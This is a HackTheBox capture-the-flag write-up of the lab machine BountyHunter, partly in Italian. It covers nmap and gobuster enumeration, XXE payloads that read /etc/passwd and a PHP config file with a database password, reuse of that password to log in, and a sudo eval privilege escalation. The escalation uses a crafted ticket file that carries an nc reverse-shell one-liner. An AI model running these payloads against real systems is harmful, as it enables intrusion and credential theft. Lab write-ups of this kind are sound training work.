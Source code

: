 #+TITLE: HTB - BountyHunter
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** leo@kali:~/repos/bountyhunter$ nmap -sC -sV bountyhunter
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 11:25 CET
Nmap scan report for bountyhunter (10.129.95.166)
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.or
g/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.69 seconds    
    #+end_example

*** leo@kali:~/repos/bountyhunter$ nmap -p- bountyhunter
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 11:25 CET
Nmap scan report for bountyhunter (10.129.95.166)
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds    
    #+end_example

** XXE payload
*** file /etc/passwd
    #+begin_example
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<bugreport>
  <title> &ent; </title>
  <cwe> 2 </cwe>
  <cvss> 3</cvss>
  <reward> 4 </reward>
</bugreport>
    
    #+end_example

    Il contenuto del file ~/etc/passwd~
    
    #+begin_example
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin    
    #+end_example
*** file /var/www/html/db.php
    
    #+begin_example
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
  <title> &ent; </title>
  <cwe> 2 </cwe>
  <cvss> 3</cvss>
  <reward> 4 </reward>
</bugreport>

    #+end_example

    Il file, una volta decodificato, è il seguente

    #+begin_example
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>    
    #+end_example

** gobuster
*** leo@kali:~/repos/bountyhunter$ gobuster dir -u http://bountyhunter -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,txt
    #+begin_example
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bountyhunter
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/leo/repos/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/11/30 11:48:20 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 25169]
/assets               (Status: 301) [Size: 313] [--> http://bountyhunter/assets/]
/portal.php           (Status: 200) [Size: 125]                                  
/css                  (Status: 301) [Size: 310] [--> http://bountyhunter/css/]   
/db.php               (Status: 200) [Size: 0]                                    
/js                   (Status: 301) [Size: 309] [--> http://bountyhunter/js/]    
/resources            (Status: 301) [Size: 316] [--> http://bountyhunter/resources/]
Progress: 24942 / 661683 (3.77%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                    
===============================================================
2021/11/30 11:48:43 Finished
===============================================================    
    #+end_example
    
* Privilege Escalation

** development@bountyhunter
   development:m19RoAU0hP41A1sTsq6K

*** development@bountyhunter:~$ sudo -l 
    #+begin_example
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py    
    #+end_example
   

*** ticketValidtor.py
    Per exploitare lo script l'idea è quella di creare un file ~.md~ che
    porta lo script ad eseguire l'istruzione ~eval~

    #+begin_src python
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
    #+end_src

    un payload che funziona è il seguente

    #+begin_example
# Skytrain Inc
## Ticket to Leonardo
__Ticket Code:__
**4+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.33 4321 >/tmp/f')
    #+end_example

    Se chiamiamo il python script con sudo e mettiamo la path ad un
    file ~.md~ che contiene quanto mostrato in alto, siamo in grado di
    diventare root.
